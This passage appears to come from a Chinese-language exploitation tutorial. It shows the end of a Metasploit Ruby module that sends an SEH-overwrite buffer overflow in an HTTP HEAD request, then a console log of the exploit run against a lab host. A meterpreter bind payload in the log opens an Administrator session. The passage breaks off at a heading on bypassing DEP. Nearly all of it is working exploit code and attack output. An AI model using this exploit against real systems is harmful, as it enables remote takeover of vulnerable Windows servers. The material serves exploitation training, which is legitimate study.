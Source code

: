 ```ruby=
              			}
            		   ]
          		 ],
      'DisclosureDate'  => '2019-01-16',
  ))
  end

  def exploit
    connect
    weapon = "HEAD "
    weapon << make_nops(target['Offset'])
    weapon << generate_seh_record(target['Ret'])
    weapon << make_nops(20)
    weapon << payload.encoded
    weapon << " HTTP/1.0\r\n\r\n"
    sock.put(weapon)
    handler
    disconnect
   end
end
```


2. exploit
```
msf5 > use exploit/windows/yanhan/seh_attack
msf5 exploit(windows/yanhan/seh_attack) > set rhosts 192.168.31.114
rhosts => 192.168.31.114
msf5 exploit(windows/yanhan/seh_attack) > set rport 80
rport => 80
msf5 exploit(windows/yanhan/seh_attack) > exploit

[*] Started reverse TCP handler on 192.168.31.84:4444
[*] Exploit completed, but no session was created.
msf5 exploit(windows/yanhan/seh_attack) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(windows/yanhan/seh_attack) > exploit

[*] Started bind TCP handler against 192.168.31.114:4444
[*] Sending stage (179779 bytes) to 192.168.31.114
[*] Meterpreter session 1 opened (192.168.31.84:46601 -> 192.168.31.114:4444) at 2019-07-10 16:43:47 +0800

meterpreter > getuid
Server username: WHU-3E3EECEBFD1\Administrator
```


-------------

# 0x03 绕过DEP

